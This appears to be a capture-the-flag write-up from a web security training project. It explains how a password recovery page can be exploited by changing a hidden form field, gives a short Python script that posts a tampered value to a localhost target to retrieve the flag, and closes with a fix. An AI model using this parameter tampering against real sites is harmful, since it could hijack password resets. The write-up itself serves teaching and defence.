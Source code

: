 # How

The page `/index.php?page=recover` is supposed to be a password recovery page.

But it lacks a field to type in our email address.

Pressing CTRL+U reveals that there is a hidden field named `email` :

```html
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15"> <!-- Hidden field -->
	<input type="submit" name="Submit" value= "Submit">
</form>
```

So, you can just change the value using your browser's dev tools and submit the form.

Or use this code :

```python
import requests
import re

FLAG_REGEX = re.compile(r'(?<=The flag is : )\w+')

data = {
    'mail': 'email@example.com',
    'Submit': 'Submit',
}

response = requests.post('http://localhost:4242/index.php?page=recover', data=data)

print("Flag:", FLAG_REGEX.search(response.text)[0])
```

# Why

In any case, never use hidden fields to store constants in your forms, even if not visible a user can still change their values.

# Fix

Instead, place the constant in your server's code and use it to pre-fill the field at most.